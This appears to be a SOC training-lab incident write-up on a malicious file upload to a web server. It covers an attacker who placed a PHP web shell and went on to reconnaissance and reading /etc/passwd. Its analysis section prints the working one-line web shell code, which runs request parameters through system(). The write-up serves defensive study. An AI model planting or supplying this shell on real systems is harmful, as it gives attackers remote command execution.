 # 	SOC128 - Malicious File Upload Attempt

## Executive Summary

On February 22, 2021, the Security Operations Center (SOC) detected a malicious file upload to the **gitServer** (172.16.20.4). The investigation confirmed that an external attacker from the IP address **49.234.71.65** successfully exploited a file upload vulnerability to place a PHP web shell (`phpshell.php`) on the server. Log analysis and endpoint data provide definitive proof that the attacker then used this web shell to achieve Remote Code Execution (RCE), running commands to perform reconnaissance and exfiltrate the `/etc/passwd` file. The server is fully compromised. This is a **True Positive** for a critical security breach.

## Incident Details

The initial alert was triggered by the detection of a known malicious file being created on the web server:

<img width="1560" height="576" alt="image" src="https://github.com/user-attachments/assets/cdcc091c-14eb-43ff-a484-9cd36ccfc8d2" />

| | |
| :--- | :--- |
| **Date of Incident**| February 22, 2021 |
| **Attacker IP**| 49.234.71.65 |
| **Destination Host**| gitServer (172.16.20.4) |
| **Malware File**| `phpshell.php` |
| **File Hash (MD5)**| 756215a64e7d43153298f1a5a5fde295 |
| **Attack Type**| Web Shell / Remote Code Execution |
| **Case Link**| *([Case link](https://app.letsdefend.io/case-management/casedetail/sohankanna/62))* |

## Investigation and Analysis

### 1. The Weapon: Analysis of the PHP Web Shell

The investigation began by analyzing the malicious file, `phpshell.php`. Threat intelligence from VirusTotal confirmed it was malicious with 34 detections. A static analysis of the file revealed a simple yet highly effective one-line PHP web shell.

<img width="1269" height="772" alt="image" src="https://github.com/user-attachments/assets/724ed9d1-3995-4520-a97f-73e773a39910" />

**Code:** `<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>`

*   **Functionality:** This code checks if a web request (GET or POST) contains a parameter named `cmd`.
*   If it does, the `system()` function takes the value of the `cmd` parameter and executes it as a command on the underlying operating system.
*   The output of the command is then sent back to the attacker in the web response. This gives the attacker a direct, interactive command line on the compromised server.
